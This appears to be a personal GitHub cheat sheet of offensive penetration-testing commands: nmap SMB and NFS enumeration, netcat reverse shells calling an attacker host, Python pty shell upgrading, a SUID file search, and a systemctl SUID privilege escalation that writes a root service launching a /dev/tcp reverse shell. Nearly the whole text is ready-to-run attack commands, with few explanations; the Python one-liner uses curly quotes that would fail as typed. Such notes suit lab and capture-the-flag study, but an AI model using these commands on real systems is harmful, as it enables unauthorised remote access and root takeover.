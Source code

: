# CyberCheatSheets
Reference Sheets / Notes of techniques learned

## Enumeration:
+ <b>Samba - Shares & Users</b>
```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 192.168.0.1
```

+ <b>NFS - Mounts</b>
```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 192.168.0.1
```


## Reverse Shells:

+ <b>Netcat - Listener</b>
```
$nc -nvlp 4242
```

+ <b>Netcat - Connecting to Listener</b>
```
nc -e /bin/sh 192.168.0.1 4242
```

+ <b>Netcat - Connecting to Listener without `-e`</b>
```
$mknod /tmp/backpipe p
$/bin/sh 0</tmp/backpipe | nc <attacker_ip> 4242 1>/tmp/backpipe
```


## Upgrading/Stablizing Shells:

+ <b>Using Ptyhon</b>

*Upgrading:*
```
python -c ‘import pty;pty.spawn(“/bin/bash”)’
$export TERM=xterm
```

*Stablizing:*
```
$^Z
$stty raw -echo; fg
(ENTER)
```


## Privilege Escalation:
+ <b>Check for processes running as root</b>
```
ps -aux | grep root
```


+ <b>`/bin/systemctl` SUID</b>

*Check if `/bin/systemcl` is exploitable*
```
find / -perm -u=s -type f 2>/dev/null
```
or
```
find / -perm -4000 2>/dev/null
```

*Write service file with printf (will be written to `/tmp/root.service`)*
```
printf '[Unit]\nDescription=root\n\n[Service]\nType=simple\nUser=root\nExecStart=/bin/bash -c "bash -i >& /dev/tcp/192.168.0.1/4242 0>&1"\n\n[Install]\nWantedBy=multi-user.target\n' > /tmp/root.service
```

*Enable and start the service*
```
systemctl enable /tmp/root.service
systemctl start root
```
